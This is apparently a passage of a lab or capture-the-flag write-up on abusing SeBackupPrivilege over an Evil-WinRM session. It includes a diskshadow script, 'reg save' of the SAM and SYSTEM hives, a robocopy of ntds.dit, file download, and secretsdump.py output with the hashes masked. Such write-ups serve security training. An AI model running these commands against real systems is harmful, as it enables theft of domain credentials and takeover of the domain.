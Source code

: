 First we go through a list of possible quick wins:

```powershell {hl_lines=[9]}
*Evil-WinRM* PS C:\Users\*****************\Documents> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeBackupPrivilege             Back up files and directories  Enabled
SeRestorePrivilege            Restore files and directories  Enabled
SeShutdownPrivilege           Shut down the system           Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```

`SeBackupPrivilege` allows a user to access any file on the system which means we can dump all hashes. 
The process is:
1. Upload a `script.txt` file which creates a backup of `ntds.dit`
2. Run a set of commands to create `sam` `system` and `ntds.dit`
3. Download those files and use `secretsdump.py` from `impacket` to get Hashes

Note that it is a lot faster to transfer files via `smbserver.py`. 
For the sake of brevity this write-up uses to inbuilt `upload` and `download` functions from `evil-winrm`


The `script.txt` file:
```
set metadata C:\Windows\Temp\meta.cabX
set context clientaccessibleX
set context persistentX
begin backupX
add volume C: alias cdriveX
createX
expose %cdrive% E:X
end backupX
```

Run on Windows victim:
```powershell
upload script.txt # Me
reg save hklm\sam sam
reg save hklm\system system
diskshadow /s script.txt
robocopy /b E:\Windows\ntds . ntds.dit
download  ntds.dit
download sam
download system
```

On Host run `secretsdump.py` to load hashes
```bash {hl_lines=[15]}
secretsdump.py -sam sam -system system -ntds ntds.dit LOCAL 
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies                         
                                                                                                                              
[*] Target system bootKey: 0x191d5d3fd5b0b51888453de8541d7e88                                                                 
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)                                                                          
# These are not useful!
Administrator:500:aad3b435b51404eeaad3b435b51404ee:********************************:::        
Guest:501:aad3b435b51404eeaad3b435b51404ee:********************************:::               
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:********************************:::            
```